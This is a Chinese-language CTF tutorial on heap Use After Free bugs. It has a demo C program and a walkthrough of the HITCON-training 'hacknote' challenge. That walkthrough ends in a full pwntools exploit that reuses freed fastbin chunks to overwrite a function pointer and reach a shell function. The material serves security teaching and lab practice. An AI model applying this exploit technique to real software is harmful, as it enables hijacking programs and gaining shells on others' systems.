

# Use After Free

## 原理

Use After Free 就是其字面所表达的意思，当一个内存块被释放之后再次被使用

- 内存块被释放后，其对应的指针被设置为 NULL ， 然后再次使用，自然程序会崩溃。
- 内存块被释放后，其对应的指针没有被设置为 NULL ，然后在它下一次被使用之前，没有代码对这块内存块进行修改，那么程序很有可能可以正常运转。
- 内存块被释放后，其对应的指针没有被设置为 NULL，但是在它下一次使用之前，有代码对这块内存进行了修改，那么当程序再次使用这块内存时，就很有可能会出现奇怪的问题。

而我们一般所指的 Use After Free 漏洞主要是后两种。此外，我们一般称被释放后没有被设置为 NULL 的内存指针为 dangling pointer。

例，

```c++
#include <stdio.h>
#include <stdlib.h>
typedef struct name {
  char *myname;
  void (*func)(char *str);
} NAME;
void myprint(char *str) { printf("%s\n", str); }
void printmyname() { printf("call print my name\n"); }
int main() {
  NAME *a;
  a = (NAME *)malloc(sizeof(struct name));
  a->func = myprint;
  a->myname = "I can also use it";
  a->func("this is my function");
  // free without modify
  free(a);
  a->func("I can also use it");
  // free with modify
  a->func = printmyname;
  a->func("this is my function");
  // set NULL
  a = NULL;
  printf("this pogram will crash...\n");
  a->func("can not be printed...");
}
```



## 例  HITCON-training，hacknote

程序的delete功能中free之后并未将指针设置为NULL，所以这里存在uaf
此外程序在add功能中会先申请一块内存，用来存放print的地址，之后输出功能的函数中即是调用这个函数地址

```c++
// 申请内存存储函数地址
  notelist[i] = malloc(8u);
  if ( !notelist[i] )
  {
    puts("Alloca Error");
    exit(-1);
  }
  *notelist[i] = print_note_content;

// print_note函数中执行这个地址
 result = notelist[v2];
  if ( result )
    result = (_DWORD *)((int (__cdecl *)(_DWORD *))*notelist[v2])(notelist[v2]);
```

### 利用

程序中存在magic函数可以获得shell，所以修改 note 的 put 字段为 magic 函数的地址，从而实现在执行 print note 的时候执行 magic 函数。
程序生成note的流程如下：

1. 申请8字节的内存用来存放note中的put以及content指针
2. 程序根据输入的size来申请指定大小的内存，然后用来存储content

```c++
notelist[i] = malloc(8u);
     if ( !notelist[i] )
     {
       puts("Alloca Error");
       exit(-1);
     }
     notelist[i]->put = print_note_content;
     printf("Note size :");
     read(0, &buf, 8u);
     size = atoi(&buf);
     v0 = notelist[i];
     v0->content = malloc(size);
     if ( !notelist[i]->content )
     {
       puts("Alloca Error");
       exit(-1);
     }
     printf("Content :");
     read(0, notelist[i]->content, size);
```

利用思路如下：

1. 申请 note0，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
2. 申请 note1，real content size 为 16（大小与 note 大小所在的 bin 不一样即可）
3. 释放 note0
4. 释放 note1
5. 此时，大小为 16 的 fast bin chunk 中链表为 note1->note0
6. 申请 note2，并且设置 real content 的大小为 8，那么根据堆的分配规则， note2 其实会分配 note1 对应的内存块。
7. real content 对应的 chunk 其实是 note0。
8. 这时候向 note2 real content 的 chunk 部分写入 magic 的地址，由于没有 将note0 为 NULL。再次尝试输出 note0 的时候，程序就会调用 magic 函数。

### exp

```python
from pwn import *
context.arch='i386'
# context.log_level="DEBUG"

p = process('./hacknote')

def add(size,content):
    p.recvuntil("Your choice :")
    p.send('1')
    p.recvuntil("Note size :")
    p.send(str(size))
    p.recvuntil("Content :")
    p.send(content)

def delete(index):
    p.recvuntil("Your choice :")
    p.send('2')
    p.recvuntil("Index :")
    p.send(str(index))

def prints(index):
    p.recvuntil("Your choice :")
    p.send('3')
    p.recvuntil("Index :")
    p.send(str(index))

def debug():
    gdb.attach(p)
    pause()

add(0x20,'AAAA')
# add one and free it,and add new smaller
# could not rewrite the function print
# pwndbg> parseheap
# addr                prev                size                 status              fd                bk
# 0x972c000           0x0                 0x10                 Used                None              None
# 0x972c010           0x0                 0x28                 Freed                0x0              None
# 0x972c038           0x0                 0x10                 Used                None              None
# pwndbg> x/16w 0x972c000
# 0x972c000:  0x00000000  0x00000011  0x080485fb  0x0972c040
# 0x972c010:  0x00000000  0x00000029  0x00000000  0x00000000
# 0x972c020:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c030:  0x00000000  0x00000000  0x00000000  0x00000011
# pwndbg> x/16w 0x0972c040
# 0x972c040:  0x43434343  0x00000000  0x00000000  0x00020fb9
# 0x972c050:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c060:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x972c070:  0x00000000  0x00000000  0x00000000  0x00000000
# pwndbg>

add(0x20,'BBBB')
delete(0)
delete(1)
add(8,p32(ELF('hacknote',checksec=False).sym['magic']))
# add(8,'CCCC')
# when we add twice and free them both, and add another smaller one, the new added's content was just start at first added's function print
# so, we just to rewrite the func print and get shell by the backdoor function(magic)
# later, just call  print_note() to execve the fake function print(magic), and get shell
# debug()
# pwndbg> parseheap
# addr                prev                size                 status              fd                bk
# 0x9f9a000           0x0                 0x10                 Used                None              None
# 0x9f9a010           0x0                 0x28                 Freed                0x0              None
# 0x9f9a038           0x0                 0x10                 Used                None              None
# 0x9f9a048           0x0                 0x28                 Freed          0x9f9a010              None
# pwndbg> x/16w 0x9f9a000
# 0x9f9a000:  0x00000000  0x00000011  0x43434343  0x09f9a018
# 0x9f9a010:  0x00000000  0x00000029  0x00000000  0x00000000
# 0x9f9a020:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x9f9a030:  0x00000000  0x00000000  0x00000000  0x00000011


prints(0)
# debug()
p.interactive()
```
